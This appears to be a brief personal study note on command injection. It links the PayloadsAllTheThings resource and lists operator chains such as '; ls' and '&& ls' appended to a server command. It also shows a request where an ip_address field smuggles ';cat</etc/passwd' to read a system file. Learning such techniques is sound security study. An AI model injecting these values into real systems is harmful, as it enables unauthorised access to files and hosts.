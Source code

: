 Payload all the things resource
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
```
#### Example 1
![[Pasted image 20220923092643.png]]
![[Pasted image 20220923092704.png]]
Taking logic from payload all the things, we should try these:
>
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls   # Only if the first cmd fail
![[Pasted image 20220923093359.png]]
```
test=ping&ip_address=64.227.35.202;cat</etc/passwd&submit=Test
```
![[Pasted image 20220923094148.png]]